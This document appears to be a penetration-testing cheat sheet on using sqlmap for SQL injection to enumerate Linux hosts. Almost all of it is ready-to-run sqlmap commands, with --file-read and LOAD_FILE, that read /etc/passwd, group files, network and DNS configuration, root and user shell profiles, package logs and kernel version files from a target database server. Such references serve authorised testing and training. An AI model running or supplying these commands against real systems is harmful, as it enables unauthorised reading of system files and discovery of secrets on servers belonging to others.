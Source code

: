 # Linux

Search Tag(s): #sqlmap #enumeration-and-discovery

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. Note: Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

- Enumerating user accounts

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/passwd"

$ sqlmap -u "<URL>" --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

- Enumerate user groups

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/group"
```

- Local IPv4 address

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/networks"
```

- DNS resolve and nameserver IPs

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/hosts"
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/bash.bashrc"

$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.bashrc"
```

- Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u "<URL>" --random-agent --file-read="/var/log/yum.log"
```

- Enumerate Linux kernel

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/os-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/proc/version"
```